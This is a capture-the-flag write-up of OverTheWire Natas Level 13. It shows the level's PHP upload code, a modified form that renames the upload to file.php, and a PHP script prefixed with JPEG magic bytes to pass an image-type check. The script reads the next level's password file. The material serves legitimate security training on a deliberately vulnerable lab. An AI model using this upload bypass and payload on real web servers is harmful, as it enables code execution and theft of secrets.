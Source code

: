 ```yaml
---
layout: post
title: "OverTheWire Natas Level 13"
date: "2012-11-12T06:44:00-05:00"
comments: true
categories:
 - overthewire
 - wargames
 - exif
 - natas
 - php
 - hacking
---
```


[Level 13](http://www.overthewire.org/wargames/natas/natas13.shtml) of [OverTheWire's](http://www.overthewire.org) Natas wargame is extremely similar to Level 12. The only difference now, is that it's validating that the file is in fact an image. This however is flawed, as exif data can be faked.

<!-- more -->

It starts out with a similar upload prompt as last time.

{% img /images/natas13_1.png %}

The source code is super similar to last time.

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Just like last time, I saved the HTML down to my local machine, and made 2 changes, for the url, and the filename. 

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="http://natas13.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="file.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The main difference to get around the exif changing in this case, is to put the JPEG magic-bytes into the beginning of the file. I found the JPEG magic-bytes by simply googling the [JPEG](http://www.digitalpreservation.gov/formats/fdd/fdd000018.shtml) file format</a>. 

I first created a small file that contained the magic bytes. 

```
mandreko$ echo -e "\xff\xd8\xff\xe0" > jpeg_magic
```

Next, I created my PHP script to upload (same as last level, except a new file to read). 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo "\n" . $file;
?>
```

Then to combine these files, I just used "cat". 

```
mandreko$ cat jpeg_magic upload.php > upload2.php
```

I then uploaded "upload2.php" using my local HTML form that I created.

{% img /images/natas13_2.png %}

Just like that, it let me past the logic to verify it was an image type. Once I clicked on the link to the uploaded file, it showed me the magic-bytes, followed by the password to the next level.

{% img /images/natas13_3.png %}
